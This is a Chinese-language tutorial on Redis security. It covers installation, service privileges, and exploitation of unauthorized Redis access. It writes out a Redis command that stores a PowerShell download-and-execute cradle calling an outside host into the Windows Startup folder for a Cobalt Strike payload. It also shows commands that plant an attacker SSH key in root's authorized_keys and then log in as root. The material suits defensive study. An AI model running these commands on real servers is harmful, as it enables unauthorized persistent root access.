# Redis漏洞总结


## 前言


一直以来没有对`Redis`数据库的安全性问题做一个总结，碍于时间等因素一直没有去做，这次总结也是一个学习的过程，对Redis数据库做多种场景下的安全性分析与利用探索。

## 简介

REmote DIctionary Server(Redis) 是一个由Salvatore Sanfilippo写的key-value存储系统。

Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。从2010年3月15日起，Redis的开发工作由VMware主持。从2013年5月开始，Redis的开发由Pivotal赞助。

Redis 与其他 key - value 缓存产品有以下三个特点：

- Redis支持数据的持久化，可以将内存中的数据保存在磁盘中，重启的时候可以再次加载进行使用。
- Redis不仅仅支持简单的key-value类型的数据，同时还提供list，set，zset，hash等数据结构的存储。
- Redis支持数据的备份，即master-slave模式的数据备份。

## 基础

### 资源

- Redis官网

```
https://redis.io/
```

- Redis下载

```
# 最新版本下载
https://redis.io/download

# 各个版本下载
http://download.redis.io/releases/
```

- Redis命令

```
https://redis.io/commands
```

- Redis在线终端

```
http://try.redis.io/
```

- Redis官方文档

```
https://redis.io/documentation
```

- Redis官方Docker

### 部署

#### Windows下安装

```
https://github.com/tporadowski/redis/releases
```

根据系统位数选择Redis版本，下载相应版本并安装，一直Next默认安装完成后进入默认安装目录`C:\Windows\System32\cmd.exe`，文件结构信息如下：

```
PS C:\Program Files\Redis> ls


    目录: C:\Program Files\Redis


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2020/11/4      9:38         126824 00-RELEASENOTES
-a----         2020/11/8     15:59           1536 EventLog.dll
-a----         2020/11/8     16:00         466944 redis-benchmark.exe
-a----         2020/11/8     16:00        7057408 redis-benchmark.pdb
-a----         2020/11/8     16:00        1857536 redis-check-aof.exe
-a----         2020/11/8     16:00       12636160 redis-check-aof.pdb
-a----         2020/11/8     16:00        1857536 redis-check-rdb.exe
-a----         2020/11/8     16:00       12636160 redis-check-rdb.pdb
-a----         2020/11/8     16:00         637440 redis-cli.exe
-a----         2020/11/8     16:00        7434240 redis-cli.pdb
-a----         2020/11/8     16:00        1857536 redis-server.exe
-a----         2020/11/8     16:00       12636160 redis-server.pdb
-a----          2021/9/3     14:09          48212 redis.windows-service.conf
-a----         2019/9/22      8:08          48201 redis.windows.conf
-a----         2020/11/8     15:58           3708 RELEASENOTES.txt
-a----          2021/9/3     14:09              0 server_log.txt
```

在安装目录打开CMD/Power Shell窗口，使用cmd终端启动Redis服务

```
PS C:\Program Files\Redis> .\redis-server.exe .\redis.windows.conf
```

Windows安装完成后可能会出现错误如下：

```
PS C:\Program Files\Redis> .\redis-server.exe .\redis.windows.conf
[5536] 03 Sep 14:17:39.797 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
[5536] 03 Sep 14:17:39.797 # Redis version=5.0.10, bits=64, commit=1c047b68, modified=0, pid=5536, just started
[5536] 03 Sep 14:17:39.797 # Configuration loaded
[5536] 03 Sep 14:17:39.812 # Could not create server TCP listening socket 127.0.0.1:6379: bind: 操作成功完成。
```

需先启动Redis客户端后再打开服务端，如下：

```
PS C:\Program Files\Redis> .\redis-cli.exe
127.0.0.1:6379> shutdown
not connected> exit
PS C:\Program Files\Redis> .\redis-server.exe .\redis.windows.conf
[4024] 03 Sep 14:19:09.453 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
[4024] 03 Sep 14:19:09.453 # Redis version=5.0.10, bits=64, commit=1c047b68, modified=0, pid=4024, just started
[4024] 03 Sep 14:19:09.453 # Configuration loaded
                _._
           _.-``__ ''-._
      _.-``    `.  `_.  ''-._           Redis 5.0.10 (1c047b68/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._
 (    '      ,       .-`  | `,    )     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 4024
  `-._    `-._  `-./  _.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |           http://redis.io
  `-._    `-._`-.__.-'_.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |
  `-._    `-._`-.__.-'_.-'    _.-'
      `-._    `-.__.-'    _.-'
          `-._        _.-'
              `-.__.-'

[4024] 03 Sep 14:19:09.468 # Server initialized
[4024] 03 Sep 14:19:09.468 * DB loaded from disk: 0.009 seconds
[4024] 03 Sep 14:19:09.468 * Ready to accept connections
```

这时，也可启动Redis客户端连接本地Redis服务。PS:开启Redis服务端的cmd窗口不能关闭

```
C:\Program Files\Redis>redis-cli.exe -h 127.0.0.1 -p 6379
127.0.0.1:6379> info
# Server
redis_version:5.0.10
redis_git_sha1:1c047b68
redis_git_dirty:0
redis_build_id:76de97c74f6945e9
redis_mode:standalone
os:Windows
arch_bits:64
multiplexing_api:WinSock_IOCP
atomicvar_api:pthread-mutex
process_id:5060
run_id:4974e4c2d4b710508e0d4a09f85e98fcb46ab935
tcp_port:6379
uptime_in_seconds:25
uptime_in_days:0
..........
```

#### Linux源码下安装

```
# 最新版本下载
https://redis.io/download

# 各个版本下载
http://download.redis.io/releases/
```

可以直接用浏览器下载也可wget下载，下载后解压并进入目录使用make命令编译安装

```
# wget http://download.redis.io/releases/redis-6.0.5.tar.gz
# tar xzf redis-6.0.5.tar.gz
# cd redis-6.0.5
# make
```

编译安装之后进入`src`目录运行Redis服务

```
# cd src
# 启动Redis服务端
# redis-server
# 启动Redis客户端
# redis-cli -h 127.0.0.1 -p 6379
```

#### Linux使用apt安装

使用`Ubuntu 20`作为实验环境

```
#sudo apt-get update
#sudo apt-get install redis-server
```

启动Redis和客户端的连接

```
# 启动Redis服务 
# 第一种方式：通过redis-server前台终端启动redis服务 
→ # redis-server 
# 第二种方式：通过系统服务管理启动redis服务 
→ # service redis-server start
```

#### 使用Docker部署

```
docker pull redis
docker run --name redis redis:latest
```

### Redis权限

Redis数据库服务启动主要有两种方式：

1、一种是通过注册系统服务方式来启动`service redis-server start`

2、另一种是通过redis自身工具来启动`redis-server`。

对于这两种方式，第一种通过系统软件包管理工具来安装redis的时候会自动注册到系统服务里面（直接使用`apt-get install redis-server`安装），第二种通过官方源码进行安装的时候，则是通过源码里面的redis-server工具进行启动，不管哪种方式都是可以通过redis-server方式进行启动的。

那么这两种方式有什么不同的，为什么要重点说一下呢，第一种：如果通过系统服务方式启动redis的话，默认启动权限为`redis`用户；第二种：如果以redis-server方式启动redis的话，默认启动权限为`当前系统终端用户权限`。下面分别查看两种不同情况：

- 使用redis-server启动Redis的权限，如下图：



- 使用service redis-service start 启动Redis的权限，如下图：

​	

- Windows下使用CMD命令启动Redis的权限，如下图：



- Docker环境

Redis官方Docker镜像地址：[Redis_Docker](https://hub.docker.com/_/redis?tab=description)，如下所示为Redis 5.0.X DockerFile源码

```bash
FROM debian:buster-slim

# add our user and group first to make sure their IDs get assigned consistently, regardless of whatever dependencies get added
RUN groupadd -r -g 999 redis && useradd -r -g redis -u 999 redis

# grab gosu for easy step-down from root
# https://github.com/tianon/gosu/releases
ENV GOSU_VERSION 1.12
RUN set -eux; \
	savedAptMark="$(apt-mark showmanual)"; \
	apt-get update; \
	apt-get install -y --no-install-recommends ca-certificates dirmngr gnupg wget; \
	rm -rf /var/lib/apt/lists/*; \
	dpkgArch="$(dpkg --print-architecture | awk -F- '{ print $NF }')"; \
	wget -O /usr/local/bin/gosu "https://github.com/tianon/gosu/releases/download/$GOSU_VERSION/gosu-$dpkgArch"; \
	wget -O /usr/local/bin/gosu.asc "https://github.com/tianon/gosu/releases/download/$GOSU_VERSION/gosu-$dpkgArch.asc"; \
	export GNUPGHOME="$(mktemp -d)"; \
	gpg --batch --keyserver hkps://keys.openpgp.org --recv-keys B42F6819007F00F88E364FD4036A9C25BF357DD4; \
	gpg --batch --verify /usr/local/bin/gosu.asc /usr/local/bin/gosu; \
	gpgconf --kill all; \
	rm -rf "$GNUPGHOME" /usr/local/bin/gosu.asc; \
	apt-mark auto '.*' > /dev/null; \
	[ -z "$savedAptMark" ] || apt-mark manual $savedAptMark > /dev/null; \
	apt-get purge -y --auto-remove -o APT::AutoRemove::RecommendsImportant=false; \
	chmod +x /usr/local/bin/gosu; \
	gosu --version; \
	gosu nobody true

ENV REDIS_VERSION 5.0.13
ENV REDIS_DOWNLOAD_URL http://download.redis.io/releases/redis-5.0.13.tar.gz
ENV REDIS_DOWNLOAD_SHA 2b617aa2d6ad66c6a5d99fc8590c6b83b40d391fd1184c6eeab30df31f6a7208

RUN set -eux; \
	\
	savedAptMark="$(apt-mark showmanual)"; \
	apt-get update; \
	apt-get install -y --no-install-recommends \
		ca-certificates \
		wget \
		\
		dpkg-dev \
		gcc \
		libc6-dev \
		make \
	; \
	rm -rf /var/lib/apt/lists/*; \
	\
	wget -O redis.tar.gz "$REDIS_DOWNLOAD_URL"; \
	echo "$REDIS_DOWNLOAD_SHA *redis.tar.gz" | sha256sum -c -; \
	mkdir -p /usr/src/redis; \
	tar -xzf redis.tar.gz -C /usr/src/redis --strip-components=1; \
	rm redis.tar.gz; \
	\
# disable Redis protected mode [1] as it is unnecessary in context of Docker
# (ports are not automatically exposed when running inside Docker, but rather explicitly by specifying -p / -P)
# [1]: https://github.com/redis/redis/commit/edd4d555df57dc84265fdfb4ef59a4678832f6da
	grep -q '^#define CONFIG_DEFAULT_PROTECTED_MODE 1$' /usr/src/redis/src/server.h; \
	sed -ri 's!^(#define CONFIG_DEFAULT_PROTECTED_MODE) 1$!\1 0!' /usr/src/redis/src/server.h; \
	grep -q '^#define CONFIG_DEFAULT_PROTECTED_MODE 0$' /usr/src/redis/src/server.h; \
# for future reference, we modify this directly in the source instead of just supplying a default configuration flag because apparently "if you specify any argument to redis-server, [it assumes] you are going to specify everything"
# see also https://github.com/docker-library/redis/issues/4#issuecomment-50780840
# (more exactly, this makes sure the default behavior of "save on SIGTERM" stays functional by default)
	\
# https://github.com/jemalloc/jemalloc/issues/467 -- we need to patch the "./configure" for the bundled jemalloc to match how Debian compiles, for compatibility
# (also, we do cross-builds, so we need to embed the appropriate "--build=xxx" values to that "./configure" invocation)
	gnuArch="$(dpkg-architecture --query DEB_BUILD_GNU_TYPE)"; \
	extraJemallocConfigureFlags="--build=$gnuArch"; \
# https://salsa.debian.org/debian/jemalloc/-/blob/c0a88c37a551be7d12e4863435365c9a6a51525f/debian/rules#L8-23
	dpkgArch="$(dpkg --print-architecture)"; \
	case "${dpkgArch##*-}" in \
		amd64 | i386 | x32) extraJemallocConfigureFlags="$extraJemallocConfigureFlags --with-lg-page=12" ;; \
		*) extraJemallocConfigureFlags="$extraJemallocConfigureFlags --with-lg-page=16" ;; \
	esac; \
	extraJemallocConfigureFlags="$extraJemallocConfigureFlags --with-lg-hugepage=21"; \
	grep -F 'cd jemalloc && ./configure ' /usr/src/redis/deps/Makefile; \
	sed -ri 's!cd jemalloc && ./configure !&'"$extraJemallocConfigureFlags"' !' /usr/src/redis/deps/Makefile; \
	grep -F "cd jemalloc && ./configure $extraJemallocConfigureFlags " /usr/src/redis/deps/Makefile; \
	\
	make -C /usr/src/redis -j "$(nproc)" all; \
	make -C /usr/src/redis install; \
	\
# TODO https://github.com/redis/redis/pull/3494 (deduplicate "redis-server" copies)
	serverMd5="$(md5sum /usr/local/bin/redis-server | cut -d' ' -f1)"; export serverMd5; \
	find /usr/local/bin/redis* -maxdepth 0 \
		-type f -not -name redis-server \
		-exec sh -eux -c ' \
			md5="$(md5sum "$1" | cut -d" " -f1)"; \
			test "$md5" = "$serverMd5"; \
		' -- '{}' ';' \
		-exec ln -svfT 'redis-server' '{}' ';' \
	; \
	\
	rm -r /usr/src/redis; \
	\
	apt-mark auto '.*' > /dev/null; \
	[ -z "$savedAptMark" ] || apt-mark manual $savedAptMark > /dev/null; \
	find /usr/local -type f -executable -exec ldd '{}' ';' \
		| awk '/=>/ { print $(NF-1) }' \
		| sort -u \
		| xargs -r dpkg-query --search \
		| cut -d: -f1 \
		| sort -u \
		| xargs -r apt-mark manual \
	; \
	apt-get purge -y --auto-remove -o APT::AutoRemove::RecommendsImportant=false; \
	\
	redis-cli --version; \
	redis-server --version

RUN mkdir /data && chown redis:redis /data
VOLUME /data
WORKDIR /data

COPY docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]

EXPOSE 6379
CMD ["redis-server"]
```

关键代码解读：

- 添加Redis组和Redis用户，表示以redis用户权限启动Redis服务

```bash
RUN groupadd -r -g 999 redis && useradd -r -g redis -u 999 redis
```

- 关闭安全模式，redis的默认配置是没有用户验证的。也就是说，reids的server你只需要知道ip和端口就可以连得上，然后也有操作权限。这样存在redis里面的数据就非常危险了。所以redis的设计者为了提醒用户注意到这一点，并引导其做一些配置，redis server默认是 bind  “127.0.0.1”，也就是说，它只能接收来自本机的client的连接。要想让redis接受所有ip地址的连接，只需要把bind那一行注释掉即可。但是从3.2开始，redis增加了protected-mode, 即使注释掉bind那一行，远程连接redis仍然会报错。配置文件中protected-mode默认是开启的

```bash
RUN set -eux; \ grep -q '^#define CONFIG_DEFAULT_PROTECTED_MODE 1$' /usr/src/redis/src/server.h; \ sed -ri 's!^(#define CONFIG_DEFAULT_PROTECTED_MODE) 1$!\1 0!' /usr/src/redis/src/server.h; \ grep -q '^#define CONFIG_DEFAULT_PROTECTED_MODE 0$' /usr/src/redis/src/server.h; \
```

- 设置Redis工作空间和权限

```bash
RUN mkdir /data && chown redis:redis /data
VOLUME /data
WORKDIR /data
```

- 启动redis容器服务

```
COPY docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]

EXPOSE 6379
CMD ["redis-server"]
```

通过上面几个关键部分的解读，可以知道容器化的redis是以redis用户身份启动的，因为容器给redis添加了redis用户组和用户(gid、uid)，同时将redis工作空间设置为/data目录并附属redis用户组用户权限，最终的容器启动以ENTRYPOINT <CMD>的方式启动也就是当前redis用户权限身份，具体细节如下：


- **安全性分析**

关于Redis服务端不同情况下启动说了那么多是为了什么，主要因为当Redis是以redis用户身份启动的话，这个时候redis服务权限会被限制在redis用户中，redis用户权限有限就无法向目标服务器特定目录写入恶意程序【即使特定目录设置redis用户及用户组或者目录权限777一样无法写入相应的文件】具体分析如下：

上面提到使用service系统服务管理方式启动redis默认以redis方式启动【注意：这里Linux系统是通过软件包管理器方式进行安装的redis数据库服务】，查看有关redis服务启动具体文件：



查看/lib/systemd/system/redis-server.service系统服务管理程序文件读取有关redis的启动配置信息：



从中可知redis服务使用redis用户及用户组启动，同时redis可读写目录被限制在上述特定目录之中，如果用户要是想使用其他目录作为数据备份目录则需要在其中添加ReadWriteDirectories=-/xx/xxx相关信息【如果不添加这些信息的话，所造成的问题：也就是上面所提到的即使有关目录设置redis所属用户及权限777也是无法向其中写入文件的】

## Redis安全

### Redis 未授权漏洞

Redis各个版本一直以来默认配置文件启动的服务都没有设置访问认证密码，即可以未授权访问redis服务。

在 Redis 3.2(3.2默认绑定在127.0.0.1)以前的版本中，默认情况下启动的服务会绑定在 0.0.0.0:6379，如果服务器存在公网IP，就会将 Redis 服务暴露到公网上，如果没有开启认证，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，在 Redis 服务器上写入SSH公钥，进而可以使用对应私钥直接登录目标服务器，或者向目标服务器写入定时任务、自启动、webshell等特殊文件来获取服务器的相应权限。

但是对于Redis 3.2之后的版本自动绑定本地IP：127.0.0.1或者之前的版本自定义配置绑定本地IP：127.0.0.1，这种情况下，外网用户是否就无法直接访问服务器利用未授权访问攻击呢，事实上这种操作默认绑定本地127.0.0.1是相对安全的，但是如果服务器存在相关SSRF或者XXE漏洞，那么就可以以服务器为跳板来未授权访问redis服务，构造相应恶意数据从而攻击redis服务拿到相应的服务器权限。

针对上述不同的利用场景也就出现了两类常见的攻击方式：公网Redis未授权(授权)攻击、内网Redis未授权(授权)攻击。

**Redis的基本命令：**

```tex
查看信息：info
删除所有数据库内容：flushall
刷新数据库：flushdb
看所有键：KEYS *，使用select num可以查看键值数据。
设置变量：set test “who am i”
config set dir dirpath 设置路径等配置
config get dirfilename 获取路径及数据配置信息
save 保存
get 变量，查看变量名称
```

**Redis未授权漏洞利用条件：**

- 未授权访问（0.0.0.0:6379 && 关闭访问`protected-mode`保护模式）
- 
- Redis启动用户为Root等高权限用户（redis-server或windows环境，拥有任意写文件权限）

#### Redis常规利用方式

- 写入开机自启动

- 写入SSH公钥免密登录
- 写入WebShell

- 写入Crontab定时任务

##### 1、写入开机自启动

- 前置知识：在Windows系统中有一些特殊的目录，在这些目录下的文件在开机的时候都会被运行。Redis可以通过config和set命令向固定路径的文件写入内容，这个功能被利用来向指定文件写入恶意内容，特别是当Redis以管理员权限运行的情况下。

```
# windows 系统管理员自启动目录
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
# windows 普通用户自启动目录
C:\Users\[用户名]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

**利用步骤：**

- 使用Redis写入自启动文件利用步骤：

```
# 如果使用普通用户启动只能写入普通用户自启动目录，如果使用管理员启动，则可以写入系统管理员自启动目录，当权限不足以写入系统管理员自启动目录时，可以写入普通用户自启动目录，一般可以设置用户名为admin尝试
# 由于redis写入文件会自带一些版本信息，如果不使用\r\n换行会导致无法执行
$ flushall
$ set x "\r\n\r\n powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.11.33.244:80/a'))\"\r\n\r\n"
$ config set dir "C:\\Users\\yym\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\"
$ config set dbfilename attack.bat
$ save
```

本地使用`Cobalt Strike` 制作好木马放在本地服务器并打开客户端监听。



重启后上线



重启算是比较鸡肋的一个点，但是在不知道路径的情况下提供了一个新的思路。

相较于重启，Window下Redis未授权漏洞的利用还可以结合MOF文件，类似于MySQL下的MOF提权，mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”其作用是每隔五秒就会去监控进程创建和死亡。MySQL MOF提权就是用了MySQL的上传文件到MOF目录，然后使用root权限去执行我们上传的mof文件。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，利用这个vbs可以运行cmd的添加管理员用户的命令。

也就是说在c:/windows/system32/wbem/mof/目录下的mof文件会每5秒自动执行一次（只适用于Windows Server 2003环境），这样就不需要重启机器就能获取权限了，但是利用还是太繁琐且利用条件苛刻。

##### 2、写入SSH公钥免密登录

- 前置知识：在Linux系统使用ssh的用户目录下都会有一个隐藏文件夹`~/.ssh/`，只要我们可以将自己的公钥写在对方的`.ssh/authorized_keys`文件里，那么就可以直接ssh免密登录目标机器(authorized_keys可以实现真正无密码连接，即为授权文件，当把master的公钥添加到authorized_keys文件中后，下次连接直接输入ssh master即可，不需要再次输入密码(我们本地可以自动生成公钥，将公钥输入到该文件中，本地就可无密码连接到该服务器）


- **利用步骤：**

1. 本地生成公私密钥对：

```bash
yym@DAS:~/.ssh# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/Users/yym/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /Users/yym/.ssh/id_rsa.
Your public key has been saved in /Users/yym/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:FQUHZ2+a2DRenTIDF0De7+5PZ/eGJRF7hhbNJmfnhP8 yym@DAS
The key's randomart image is:
+---[RSA 3072]----+
|          =B*o.+ |
|          .=+.=.X|
|          ..o=+#o|
|         . = *X =|
|        S . =. =.|
|              o E|
|               ==|
|              oo=|
|              .++|
+----[SHA256]-----+

yym@DAS:~/.ssh# ls
id_rsa      id_rsa.pub  known_hosts

yym@DAS:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCTvcBNQeAnGcs4hNJt4JLSmmpKhHQ0wd/8Ge2/swiFCIu3yVKqoMVKJQaus32BtsYTwv5HYi6zRWLutNDGUywH5luPXZQDaz1zptx2sh5iM4yHHnDqodpSbEFdNNY6+n7fcdbe0KstyAtxP7WLC6OvCNAxXwJXkTKNRlR7s6RtxM/x6HX7s5VJSh2gQAj0ksaxhyhr3vQOswIvJkS6Rat5Crw93Ph2besule9ggRRsMaOHmBqSOSUa1uUQtsB6sk+IkAYzAKLFnYqkHUNTbI8UUDdx0V6dQ60T2dbxycVKpJ/ufQ319HeLHTHlMzQwIC5uFF+iespC2XzTdX630V8LqQNCatyztFcGcPnYAUJarucLOf4QOllzUh/xe91ozKgD/5lZ7Lk3NYepCwgDxfTPuYWUKd+tXxgQD90YHBXmEMLj6p+V71fkIPRIprMrPQK3/DLAVRdwt9Iyp1alItiCxFMm0rbegIeMe3duBWUhUvFu5dyhOz0fl0gPTyDYNwU= yym@DAS
```

2. 写入恶意SSH公钥

```
config set dir /root/.ssh/ 
config set dbfilename authorized_keys 
set x "\r\n ssh-rsa  AAAAB3NzaC1yc2EAAAADAQABAAABgQCTvcBNQeAnGcs4hNJt4JLSmmpKhHQ0wd/8Ge2/swiFCIu3yVKqoMVKJQaus32BtsYTwv5HYi6zRWLutNDGUywH5luPXZQDaz1zptx2sh5iM4yHHnDqodpSbEFdNNY6+n7fcdbe0KstyAtxP7WLC6OvCNAxXwJXkTKNRlR7s6RtxM/x6HX7s5VJSh2gQAj0ksaxhyhr3vQOswIvJkS6Rat5Crw93Ph2besule9ggRRsMaOHmBqSOSUa1uUQtsB6sk+IkAYzAKLFnYqkHUNTbI8UUDdx0V6dQ60T2dbxycVKpJ/ufQ319HeLHTHlMzQwIC5uFF+iespC2XzTdX630V8LqQNCatyztFcGcPnYAUJarucLOf4QOllzUh/xe91ozKgD/5lZ7Lk3NYepCwgDxfTPuYWUKd+tXxgQD90YHBXmEMLj6p+V71fkIPRIprMrPQK3/DLAVRdwt9Iyp1alItiCxFMm0rbegIeMe3duBWUhUvFu5dyhOz0fl0gPTyDYNwU= yym@DAS \r\n"
save
```

3. SSH登录

```
# 使用SSH登录不需要密码就能登录
yym@DAS~# ssh root@10.11.41.193
The authenticity of host '10.11.41.193 (10.11.41.193)' can't be established.
ECDSA key fingerprint is SHA256:fTkZ/RY7CRHNTnQA7ELIWBt/N6/3tby2T0EiK1KZZAw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.41.193' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.11.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

63 updates can be applied immediately.
1 of these updates is a standard security update.
To see these additional updates run: apt list --upgradable

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Tue Sep  7 08:47:25 2021 from 127.0.0.1
root@yym:~# id
用户id=0(root) 组id=0(root) 组=0(root)
root@yym:~#
```

